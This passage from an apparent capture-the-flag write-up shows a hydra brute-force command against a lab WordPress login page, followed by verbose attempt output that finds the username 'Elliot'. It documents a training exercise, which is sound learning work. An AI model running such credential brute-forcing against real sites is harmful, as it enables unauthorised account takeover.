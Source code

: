 Use hydra and the `fsocity.dic` file to brute-force the login.

Format: `hydra -l <login /> -P <path/to/wordlist /> <ip /> <module /> '/path/to/login.php:login-request&password=^PASS^:failure-message'`

I use the following payload to set password as fixed and run through the `./fsocity.dic` file to find valid username i.e. when you get a response that doesn't get `Invalid username` returned:

payload: `hydra -L ./fsocity.dic -p password 10.10.235.193 -V http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username'`

```bash
hydra -L ./fsocity.dic -p password 10.10.235.193 -V http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username'
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations
, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-02 23:02:35
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.235.193:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username
[ATTEMPT] target 10.10.235.193 - login "true" - pass "password" - 1 of 858235 [child 0] (0/0)
[ATTEMPT] target 10.10.235.193 - login "false" - pass "password" - 2 of 858235 [child 1] (0/0)
[ATTEMPT] target 10.10.235.193 - login "wikia" - pass "password" - 3 of 858235 [child 2] (0/0)
[ATTEMPT] target 10.10.235.193 - login "from" - pass "password" - 4 of 858235 [child 3] (0/0)
[ATTEMPT] target 10.10.235.193 - login "the" - pass "password" - 5 of 858235 [child 4] (0/0)
[ATTEMPT] target 10.10.235.193 - login "now" - pass "password" - 6 of 858235 [child 5] (0/0)
[ATTEMPT] target 10.10.235.193 - login "Wikia" - pass "password" - 7 of 858235 [child 6] (0/0)
[ATTEMPT] target 10.10.235.193 - login "extensions" - pass "password" - 8 of 858235 [child 7] (0/0)
[ATTEMPT] target 10.10.235.193 - login "scss" - pass "password" - 9 of 858235 [child 8] (0/0)
[ATTEMPT] target 10.10.235.193 - login "window" - pass "password" - 10 of 858235 [child 9] (0/0)
[ATTEMPT] target 10.10.235.193 - login "http" - pass "password" - 11 of 858235 [child 10] (0/0)
[ATTEMPT] target 10.10.235.193 - login "var" - pass "password" - 12 of 858235 [child 11] (0/0)
[ATTEMPT] target 10.10.235.193 - login "page" - pass "password" - 13 of 858235 [child 12] (0/0)
[ATTEMPT] target 10.10.235.193 - login "Robot" - pass "password" - 14 of 858235 [child 13] (0/0)
[ATTEMPT] target 10.10.235.193 - login "Elliot" - pass "password" - 15 of 858235 [child 14] (0/0)
[ATTEMPT] target 10.10.235.193 - login "styles" - pass "password" - 16 of 858235 [child 15] (0/0)
[ATTEMPT] target 10.10.235.193 - login "and" - pass "password" - 17 of 858235 [child 0] (0/0)
[ATTEMPT] target 10.10.235.193 - login "document" - pass "password" - 18 of 858235 [child 1] (0/0)
[ATTEMPT] target 10.10.235.193 - login "mrrobot" - pass "password" - 19 of 858235 [child 2] (0/0)
[ATTEMPT] target 10.10.235.193 - login "com" - pass "password" - 20 of 858235 [child 3] (0/0)
[ATTEMPT] target 10.10.235.193 - login "ago" - pass "password" - 21 of 858235 [child 4] (0/0)
[ATTEMPT] target 10.10.235.193 - login "function" - pass "password" - 22 of 858235 [child 5] (0/0)
[ATTEMPT] target 10.10.235.193 - login "eps1" - pass "password" - 23 of 858235 [child 7] (0/0)
[ATTEMPT] target 10.10.235.193 - login "null" - pass "password" - 24 of 858235 [child 6] (0/0)
[ATTEMPT] target 10.10.235.193 - login "chat" - pass "password" - 25 of 858235 [child 8] (0/0)
[ATTEMPT] target 10.10.235.193 - login "user" - pass "password" - 26 of 858235 [child 9] (0/0)
[ATTEMPT] target 10.10.235.193 - login "Special" - pass "password" - 27 of 858235 [child 11] (0/0)
[ATTEMPT] target 10.10.235.193 - login "GlobalNavigation" - pass "password" - 28 of 858235 [child 10] (0/0)
[ATTEMPT] target 10.10.235.193 - login "images" - pass "password" - 29 of 858235 [child 12] (0/0)
[ATTEMPT] target 10.10.235.193 - login "net" - pass "password" - 30 of 858235 [child 13] (0/0)
[80][http-post-form] host: 10.10.235.193   login: Elliot   password: password # <------ bingo!
[ATTEMPT] target 10.10.235.193 - login "push" - pass "password" - 31 of 858235 [child 14] (0/0)
```

